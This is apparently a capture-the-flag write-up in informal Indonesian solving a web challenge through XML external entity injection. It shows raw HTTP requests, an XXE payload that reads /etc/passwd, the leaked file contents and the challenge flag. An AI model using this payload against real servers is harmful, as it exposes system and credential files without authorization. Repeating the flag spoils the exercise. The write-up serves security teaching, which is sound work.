

# Writeup

### 🌐 Web Exploitation

## XML External Entity Injection

disini gw bakal ngerjain chall `SOAP` dari CyLab Academy.

ketika di launch akan diberikan sebuah website yang memiliki fitur `check detail` dimana menggunakan xml sebagai request untuk mendapatkan value sesuai data nya



```js
  <script src="/static/js/xmlDetailsCheckPayload.js"></script>
  <script src="/static/js/detailsCheck.js"></script>
```

ini juga diperkuat dengan hint yang diberikan
- XML external entity Injection

karena sudah tahu vulnerability nya disini akan gw intercept untuk memanipulasi requestnya dan mengarahkan ke arah tujuan nya yaitu `/etc/passwd`

```bash
Request
POST /data HTTP/1.1
Host: saturn.picoctf.net:52273

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>

Response
HTTP/1.1 200 OK

<strong>Special Info::::</strong> University in Kigali, Rwanda offereing MSECE, MSIT and MS EAI
```
untuk memanipulasinya disini gw bakal pakai payload dari `Payload All The Things` yaitu
```bash
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
saya terapkan payload itu ke fitur check detailnya
```bash
POST /data HTTP/1.1
Host: saturn.picoctf.net:52273

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>&test;</ID></data>
```
hasinya gw akan bisa read /etc/passwd

```bash
HTTP/1.1 200 OK
...

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

dan gw berhasil dapatkan flagnya


## References
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md
